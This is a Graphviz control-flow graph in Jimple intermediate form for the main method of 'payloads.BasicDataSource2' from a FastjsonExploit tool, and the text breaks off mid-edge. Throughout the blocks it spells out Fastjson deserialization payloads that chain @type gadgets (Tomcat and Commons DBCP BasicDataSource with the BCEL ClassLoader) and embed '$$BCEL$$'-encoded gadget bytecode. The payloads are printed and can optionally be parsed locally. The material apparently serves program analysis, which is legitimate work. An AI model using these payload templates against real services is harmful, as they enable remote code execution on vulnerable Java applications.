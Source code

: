 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 3 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 1 goto $r1 = r0[0];
"
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i2 = lengthof r0;
if $i2 == 2 goto $r1 = r0[0];
"
    "Block 2:
[preds: 1 ] [succs: ]
$r12 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r12.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usge: java -cp FastjsonExploit-<version>.jar payloads.BasicDataSource2 <rmi/ldap address>\");
return;
"
    "Block 3:
[preds: 0 1 ] [succs: 4 25 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2);
"
    "Block 4:
[preds: 3 ] [succs: 5 25 ]
r14 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\";
"
    "Block 5:
[preds: 4 ] [succs: 6 25 ]
r15 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.commons.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\";
"
    "Block 6:
[preds: 5 ] [succs: 7 25 ]
r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r2);
"
    "Block 7:
[preds: 6 ] [succs: 8 25 ]
r16 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1);
"
    "Block 8:
[preds: 7 ] [succs: 9 25 ]
$r5 = new java.lang.StringBuilder;
"
    "Block 9:
[preds: 8 ] [succs: 10 25 ]
specialinvoke $r5.<java.lang.StringBuilder: void <init>()>();
"
    "Block 10:
[preds: 9 ] [succs: 11 25 ]
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\");
"
    "Block 11:
[preds: 10 ] [succs: 12 25 ]
$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r16);
"
    "Block 12:
[preds: 11 ] [succs: 13 25 ]
r17 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>();
"
    "Block 13:
[preds: 12 ] [succs: 14 25 ]
r18 = virtualinvoke r15.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"xxxxxxxxxx\", r17);
"
    "Block 14:
[preds: 13 ] [succs: 15 25 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
"
    "Block 15:
[preds: 14 ] [succs: 16 25 ]
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(r18);
"
    "Block 16:
[preds: 15 ] [succs: 17 25 ]
$i1 = lengthof r0;
"
    "Block 17:
[preds: 16 ] [succs: 18 24 25 ]
if $i1 != 2 goto (branch);
"
    "Block 18:
[preds: 17 ] [succs: 19 25 ]
$r9 = r0[1];
"
    "Block 19:
[preds: 18 ] [succs: 20 25 ]
$z0 = virtualinvoke $r9.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
"
    "Block 20:
[preds: 19 ] [succs: 21 24 25 ]
if $z0 == 0 goto (branch);
"
    "Block 21:
[preds: 20 ] [succs: 22 25 ]
$r10 = <java.lang.System: java.io.PrintStream out>;
"
    "Block 22:
[preds: 21 ] [succs: 23 25 ]
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
"
    "Block 23:
[preds: 22 ] [succs: 24 25 ]
staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r18);
"
    "Block 24:
[preds: 17 20 23 ] [succs: 26 ]
goto [?= return];
"
    "Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
"
    "Block 26:
[preds: 24 25 ] [succs: ]
return;
"
    "Block 0:
[preds: ] [succs: 1 3 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 1 goto $r1 = r0[0];
"->"Block 1:
[preds: 0 ] [succs: 2 3 ]
$i2 = lengthof r0;
if $i2 == 2 goto $r1 = r0[0];
";
    "Block 0:
[preds: ] [succs: 1 3 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 1 goto $r1 = r0[0];
"->"Block 3:
[preds: 0 1 ] [succs: 4 25 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2);
";
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i2 = lengthof r0;
if $i2 == 2 goto $r1 = r0[0];
"->"Block 2:
[preds: 1 ] [succs: ]
$r12 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r12.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usge: java -cp FastjsonExploit-<version>.jar payloads.BasicDataSource2 <rmi/ldap address>\");
return;
";
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i2 = lengthof r0;
if $i2 == 2 goto $r1 = r0[0];
"->"Block 3:
[preds: 0 1 ] [succs: 4 25 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2);
";
    "Block 3:
[preds: 0 1 ] [succs: 4 25 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2);
"->"Block 4:
[preds: 3 ] [succs: 5 25 ]
r14 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\";
";
    "Block 3:
[preds: 0 1 ] [succs: 4 25 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2);
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 4:
[preds: 3 ] [succs: 5 25 ]
r14 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\";
"->"Block 5:
[preds: 4 ] [succs: 6 25 ]
r15 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.commons.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\";
";
    "Block 4:
[preds: 3 ] [succs: 5 25 ]
r14 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\";
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 5:
[preds: 4 ] [succs: 6 25 ]
r15 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.commons.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\";
"->"Block 6:
[preds: 5 ] [succs: 7 25 ]
r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r2);
";
    "Block 5:
[preds: 4 ] [succs: 6 25 ]
r15 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.commons.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\";
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 6:
[preds: 5 ] [succs: 7 25 ]
r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r2);
"->"Block 7:
[preds: 6 ] [succs: 8 25 ]
r16 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1);
";
    "Block 6:
[preds: 5 ] [succs: 7 25 ]
r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r2);
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 7:
[preds: 6 ] [succs: 8 25 ]
r16 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1);
"->"Block 8:
[preds: 7 ] [succs: 9 25 ]
$r5 = new java.lang.StringBuilder;
";
    "Block 7:
[preds: 6 ] [succs: 8 25 ]
r16 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1);
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 8:
[preds: 7 ] [succs: 9 25 ]
$r5 = new java.lang.StringBuilder;
"->"Block 9:
[preds: 8 ] [succs: 10 25 ]
specialinvoke $r5.<java.lang.StringBuilder: void <init>()>();
";
    "Block 8:
[preds: 7 ] [succs: 9 25 ]
$r5 = new java.lang.StringBuilder;
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 9:
[preds: 8 ] [succs: 10 25 ]
specialinvoke $r5.<java.lang.StringBuilder: void <init>()>();
"->"Block 10:
[preds: 9 ] [succs: 11 25 ]
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\");
";
    "Block 9:
[preds: 8 ] [succs: 10 25 ]
specialinvoke $r5.<java.lang.StringBuilder: void <init>()>();
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 10:
[preds: 9 ] [succs: 11 25 ]
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\");
"->"Block 11:
[preds: 10 ] [succs: 12 25 ]
$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r16);
";
    "Block 10:
[preds: 9 ] [succs: 11 25 ]
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\");
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 11:
[preds: 10 ] [succs: 12 25 ]
$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r16);
"->"Block 12:
[preds: 11 ] [succs: 13 25 ]
r17 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>();
";
    "Block 11:
[preds: 10 ] [succs: 12 25 ]
$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r16);
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 12:
[preds: 11 ] [succs: 13 25 ]
r17 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>();
"->"Block 13:
[preds: 12 ] [succs: 14 25 ]
r18 = virtualinvoke r15.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"xxxxxxxxxx\", r17);
";
    "Block 12:
[preds: 11 ] [succs: 13 25 ]
r17 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>();
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 13:
[preds: 12 ] [succs: 14 25 ]
r18 = virtualinvoke r15.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"xxxxxxxxxx\", r17);
"->"Block 14:
[preds: 13 ] [succs: 15 25 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
";
    "Block 13:
[preds: 12 ] [succs: 14 25 ]
r18 = virtualinvoke r15.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"xxxxxxxxxx\", r17);
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 14:
[preds: 13 ] [succs: 15 25 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
"->"Block 15:
[preds: 14 ] [succs: 16 25 ]
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(r18);
";
    "Block 14:
[preds: 13 ] [succs: 15 25 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 15:
[preds: 14 ] [succs: 16 25 ]
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(r18);
"->"Block 16:
[preds: 15 ] [succs: 17 25 ]
$i1 = lengthof r0;
";
    "Block 15:
[preds: 14 ] [succs: 16 25 ]
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(r18);
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 16:
[preds: 15 ] [succs: 17 25 ]
$i1 = lengthof r0;
"->"Block 17:
[preds: 16 ] [succs: 18 24 25 ]
if $i1 != 2 goto (branch);
";
    "Block 16:
[preds: 15 ] [succs: 17 25 ]
$i1 = lengthof r0;
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 17:
[preds: 16 ] [succs: 18 24 25 ]
if $i1 != 2 goto (branch);
"->"Block 18:
[preds: 17 ] [succs: 19 25 ]
$r9 = r0[1];
";
    "Block 17:
[preds: 16 ] [succs: 18 24 25 ]
if $i1 != 2 goto (branch);
"->"Block 24:
[preds: 17 20 23 ] [succs: 26 ]
goto [?= return];
";
    "Block 17:
[preds: 16 ] [succs: 18 24 25 ]
if $i1 != 2 goto (branch);
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 18:
[preds: 17 ] [succs: 19 25 ]
$r9 = r0[1];
"->"Block 19:
[preds: 18 ] [succs: 20 25 ]
$z0 = virtualinvoke $r9.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
";
    "Block 18:
[preds: 17 ] [succs: 19 25 ]
$r9 = r0[1];
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 19:
[preds: 18 ] [succs: 20 25 ]
$z0 = virtualinvoke $r9.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
"->"Block 20:
[preds: 19 ] [succs: 21 24 25 ]
if $z0 == 0 goto (branch);
";
    "Block 19:
[preds: 18 ] [succs: 20 25 ]
$z0 = virtualinvoke $r9.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 20:
[preds: 19 ] [succs: 21 24 25 ]
if $z0 == 0 goto (branch);
"->"Block 21:
[preds: 20 ] [succs: 22 25 ]
$r10 = <java.lang.System: java.io.PrintStream out>;
";
    "Block 20:
[preds: 19 ] [succs: 21 24 25 ]
if $z0 == 0 goto (branch);
"->"Block 24:
[preds: 17 20 23 ] [succs: 26 ]
goto [?= return];
";
    "Block 20:
[preds: 19 ] [succs: 21 24 25 ]
if $z0 == 0 goto (branch);
"->"Block 25:
